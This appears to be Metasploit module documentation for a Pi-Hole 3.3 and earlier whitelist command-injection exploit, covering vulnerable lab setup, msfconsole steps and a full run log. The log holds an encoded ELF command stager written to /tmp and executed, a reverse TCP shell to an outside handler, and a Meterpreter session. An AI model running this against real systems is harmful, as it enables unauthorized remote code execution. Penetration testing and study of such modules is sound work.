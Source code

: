 ## Vulnerable Application

This exploits a command execution vulnerability in Pi-Hole <= 3.3. When adding a 
new domain to the whitelist, it is possible to chain a command to 
the domain that is run on the OS.

### Setup

Install Pi-Hole [Pi-Hole 3.2.1](https://github.com/pi-hole/pi-hole/releases/tag/v3.2.1)
with the following commands:

```
sudo git clone --depth=1 -b v3.2.1 https://github.com/pi-hole/pi-hole.git /etc/.pihole
# replace 'git clone' with 'git clone -b v3.2.1'
sudo nano /etc/.pihole/automated\ install/basic-install.sh
sudo /etc/.pihole/automated\ install/basic-install.sh
```

Pi-Hole attempts to install the latest versions of the software.  Modifying the git clone
command will force it to install the old AdminLTE and Pi-Hole versions.  However this
will make FTL fail to install.

Answer everything with the default.

Lastly, we need to create one file which wasn't made.

```
sudo touch /etc/pihole/GitHubVersions
```

This will be enough to make it exploitable, however the dashboard won't fully work since some
other components were installed which are too new for it to work with.

If you wish to install FTL, follow the [directions](https://docs.pi-hole.net/ftldns/compile/).
However, when cloning the FTL repo, add the flag `-b v2.13.1` to pull an age appropriate version.
Also, the service may not install correctly.  However simply running `sudo /usr/bin/pihole-FTL`
will start it successfully.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_whitelist_exec```
  4. Do: ```set rhosts```
  5. Do: ```run```
  6. You should get a shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 3.2.1 with AdminLTE 3.2.1 on Ubuntu 18.04

  ```
  msf5 > use exploit/unix/http/pihole_whitelist_exec 
  msf5 exploit(unix/http/pihole_whitelist_exec) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 exploit(unix/http/pihole_whitelist_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/http/pihole_whitelist_exec) > run
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Version Detected: 3.2.1
  [*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgCgGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/DaQVx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/QUFVT' < '/tmp/DaQVx.b64' ; chmod +x '/tmp/QUFVT' ; '/tmp/QUFVT' ; rm -f '/tmp/QUFVT' ; rm -f '/tmp/DaQVx.b64'"]
  [*] Using cookie: PHPSESSID=j8o7g4m3e30279850hi275mqhk;
  [*] Using token: OoSESvgJJEWq7mvYBEOJaa/6jyA0GRy56pRZvy93IlU=
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (980808 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:44212) at 2020-05-13 23:25:19 -0400
  [*] Command Stager progress - 100.00% done (763/763 bytes)
  
  meterpreter > getuid
  Server username: no-user @ ubuntu1804 (uid=33, gid=33, euid=33, egid=33)
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 18.04 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
